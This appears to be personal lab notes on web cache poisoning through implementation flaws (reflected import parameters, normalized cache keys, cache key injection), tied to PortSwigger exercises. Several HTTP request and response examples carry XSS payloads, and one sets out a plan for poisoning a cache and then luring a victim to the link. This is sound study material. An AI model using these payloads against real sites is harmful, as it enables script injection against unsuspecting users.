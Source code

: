```http
```

#### Exploiting dynamic content in resource imports
Imported resource files are typically static but some reflect input from the query string
Consider a page that reflects the current query string in an import statement:
```http
GET /style.css?excluded_param=123);@import… HTTP/1.1

HTTP/1.1 200 OK
…
@import url(/site/home/index.part1.8a6715a2.css?excluded_param=123);@import…
```
If doctype is not specified, you can maybe even exploit static CSS files by poisoning it triggering a server error that reflects the excluded query parameter:
```http
GET /style.css?excluded_param=alert(1)%0A{}*{color:red;} HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/html
…
This request was blocked due to…alert(1){}*{color:red;}
```

### Normalized cache keys
Some caching implementations normalize keyed input when adding it to the cache key. In this case, both of the following requests would have the same key:
```
GET /example?param="><test>
GET /example?param=%22%3e%3ctest%3e
```
When the victim visits the malicious URL, the payload will still be URL-encoded by their browser; however, once the URL is normalized by the cache, it will have the same cache key as the response containing your unencoded payload. 
**TLDR**: poison cache with non URL-encoded link, then send to the victim URL-encoded link.

### Cache key injection
Poison some cache key fragment, then send the link with the same cache key fragment to the victim. Example:
```http
GET /path?param=123 HTTP/1.1
Origin: '-alert(1)-'__

HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__

<script>…'-alert(1)-'…</script>
```
Send this link to the victim:
```http
GET /path?param=123__Origin='-alert(1)-'__ HTTP/1.1

HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__
X-Cache: hit

<script>…'-alert(1)-'…</script>
```
#to-be-continued 
lab: https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws#identify-a-suitable-cache-oracle
https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws#identify-a-suitable-cache-oracle